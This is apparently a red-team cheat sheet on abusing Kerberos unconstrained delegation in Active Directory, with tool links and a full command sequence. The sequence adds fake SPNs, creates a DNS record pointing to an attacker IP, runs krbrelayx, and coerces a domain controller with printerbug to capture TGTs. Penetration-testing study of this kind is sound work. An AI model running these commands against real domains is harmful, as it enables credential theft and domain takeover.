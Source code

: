 # [Delegation](https://www.thehacker.recipes/ad/movement/kerberos/delegations)

## Questions to ask yourself
  *  Any user/computer objects with unreadable [delegation attributes](https://github.com/SpacemanHenry/hacknotes/blob/main/Information%20Gathering/Service%20Enumeration/LDAP.md#delegation-permissions)?
  *  Any unconstrained objects [kerberoastable](https://github.com/SpacemanHenry/hacknotes/blob/main/Exploitation/Authentication/Kerberos/Kerberoast.md)?
  *  What services have service principal names configured?
      *  What users have high privileges over those services?

## Things to remember
  *  Unconstrained delegation requires changes from default config for user accounts

## Useful tools
  *  [`krbrelayx`](https://github.com/dirkjanm/krbrelayx) toolkit for abusing unconstrained delegation
  *  [`impacket-getST`](https://github.com/fortra/impacket/blob/master/examples/getST.py) for impersonating users via constrained delegation

## [Unconstrained delegation](https://blog.redxorblue.com/2019/12/no-shells-required-using-impacket-to.html)
  *  KDC provides KUD service accounts a TGT of any user that auths via SPN
      *  Any method of coerced authentication can often be used... get creative!
  *  Abusing user accounts with KUD relies on [`Write servicePrincipalName`](https://learn.microsoft.com/en-us/sql/database-engine/configure-windows/register-a-service-principal-name-for-kerberos-connections?view=sql-server-ver16)
      *  Create SPN for service account using fake hostname
      *  Create DNS entry matching fake hostname pointing to attacker IP
      *  Coerce authentication to the fake hostname SPNs and capture TGT
  *  Add FQDN of domain controller to `hosts` file to avoid DNS errors

// Unconstrained delegation abuse via service (user) account 
```
git clone https://github.com/dirkjanm/krbrelayx && cd krbrelayx
python3 addspn.py -u corp.local\\sqlsvc -p 'password' -s host/FAKE.CORP.LOCAL ldap://DC.CORP.LOCAL
python3 addspn.py -u corp.local\\sqlsvc -p 'password' -s cifs/FAKE.CORP.LOCAL ldap://DC.CORP.LOCAL
python3 dnstool.py -u corp.local\\sqlsvc -p 'password' -r FAKE.CORP.LOCAL -a add -d [ATTACKER IP] DC.CORP.LOCAL
python3 krbrelayx.py --krbsalt CORP.LOCALsqlsvc --krbpass 'password'
python3 printerbug.py corp.local/sqlsvc:'password'@DC.CORP.LOCAL FAKE.CORP.LOCAL
```
